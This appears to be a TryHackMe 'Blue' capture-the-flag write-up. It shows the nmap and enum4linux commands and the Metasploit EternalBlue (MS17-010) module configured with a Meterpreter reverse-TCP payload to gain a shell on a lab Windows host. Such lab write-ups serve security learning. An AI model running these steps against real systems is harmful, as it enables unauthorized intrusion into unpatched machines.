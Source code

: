 # TryHackMe-Blue

## Summary
"Blue" is a beginner-friendly Windows machine that introduces key red team concepts: service enumeration, SMB exploitation, and post-exploitation with Metasploit. This box simulates a vulnerable host affected by EternalBlue (MS17-010).

## 🛠Tools Used
- `nmap`
- `enum4linux`
- `Metasploit`
- `smbclient`

## Target IP
`10.10.58.122`


## 1. Reconnaissance

```bash
nmap -sC -sV -oN blue-nmap.txt [IP]
Nmap revealed:
  -Ports 138, 445 (SMB)
  -Windows 7 OS guess
  -vulnerability likely to MS17-010
```


## 2. Enumeration

enum4linux -a [IP]
`Found usernames, shared drives, and Windows version. Confirmed it's vulnerable to EternalBlue.`


## 3. Exploitation

msfconsole
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS [IP]
set PAYLOAD windows/x64/meterpreter/reverse_tcp
exploit
`Successfully gained a Meterpreter shell. Verified user access.`


## 4. Post-Exploitation
```
Explored file syetem
Located and captured the user.txt and root.txt flags
Verified persistance and removed artifacts
```


## Conclusion

```
EternalBlue remains a critical reminder of unpatched systerm
SMB enunmertation is essential before launching exploits
Metasploit simplifies exploitation but should be used responsibly
```
